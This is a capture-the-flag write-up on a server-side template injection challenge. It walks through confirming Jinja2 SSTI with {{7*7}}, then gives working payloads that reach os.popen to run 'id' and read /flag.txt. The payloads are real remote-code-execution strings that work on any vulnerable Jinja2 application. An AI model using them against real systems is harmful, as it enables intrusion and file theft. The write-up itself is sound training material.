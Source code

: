 # SSTI-1 CTF – Writeup

## 📌 Challenge Description
The **SSTI-1** challenge is based on **Server-Side Template Injection (SSTI)**.  
SSTI vulnerabilities occur when user input is embedded directly into a server-side template without proper sanitization, allowing an attacker to execute arbitrary code through template expressions.  

The goal of this challenge was to identify and exploit an SSTI vulnerability to extract the flag.

---

## 🛠️ Walkthrough / Solution

### 1. Understanding the Input Field
The challenge presented a web application with an input field. Any text entered was reflected back in the page response.  
This suggested that the server was processing user input within a template engine.

---

### 2. Testing for Template Injection
To confirm if it was vulnerable to SSTI, I tried injecting a basic expression:

```jinja
{{7*7}}
```

If the page rendered **49** instead of the literal string `{{7*7}}`, it confirmed the vulnerability.  
This meant the application was using a template engine (likely **Jinja2** in Python).

---

### 3. Exploiting the Vulnerability
After confirming SSTI, I attempted to break out of the template sandbox and execute system commands.  
The payload I used was:

```jinja
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
```

✅ This successfully executed the `id` command on the server and returned the result, proving **Remote Code Execution (RCE)**.

---

### 4. Extracting the Flag
Once command execution was achieved, I used a similar payload to read files on the server.  
Typically, flags are stored in `/flag.txt`. To read it:

```jinja
{{request.application.__globals__.__builtins__.__import__('os').popen('cat /flag.txt').read()}}
```

This displayed the flag in the response.

---

## 🔑 Key Takeaways
- Confirmed SSTI by testing with `{{7*7}}`.  
- Used Python object traversal to access `os` module.  
- Achieved **RCE** with the payload:  
  ```jinja
  {{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
  ```
- Retrieved the flag by reading `/flag.txt`.  

